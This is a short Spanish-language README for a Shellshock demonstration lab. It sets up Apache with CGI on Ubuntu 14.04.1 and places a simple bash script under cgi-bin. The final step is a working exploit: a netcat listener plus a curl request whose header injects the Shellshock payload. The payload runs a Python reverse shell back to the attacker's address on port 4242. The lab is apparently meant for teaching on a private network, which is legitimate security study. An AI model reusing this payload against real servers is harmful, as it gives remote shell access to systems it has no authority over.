 # Shellshock-Demo

# Requisitos 

- Ubuntu 14.04.1 (http://releases.ubuntu.com/14.04.1)
- Apache Server (Cualquiera)
- Curl (Cualquiera)

# Proceso

1. Instalar Apache Server y Curl
```
$ sudo apt-get install apache2 curl
```

2. Activar el modulo CGI de Apache
```
$ cd /etc/apache2/mods-enabled
$ sudo ln -s ../mods-available/cgi.load
```

3. Reiniciar Apache 

```
$ sudo service apache2 reload
```

4. Crear script en los directorios de CGI
```
nano /usr/lib/cgi-bin/test.sh

Pegar el contenido

#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Holis!"

Hacerlo ejecutable
$ sudo chmod +x /usr/lib/cgi-bin/test.sh
```

5. Visitar el script para ver el funcionamiento normal

```
localhost/cgi-bin/test.sh

o con curl

$ curl localhost/cgi-bin/test.sh
```

6. Hacer llamada al script con el payload de shellshock

En maquina de ataque:

```
$ nc -lvp 4242

# En otra terminal
$ curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.139.1\",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://192.168.139.128/cgi-bin/test.sh
```
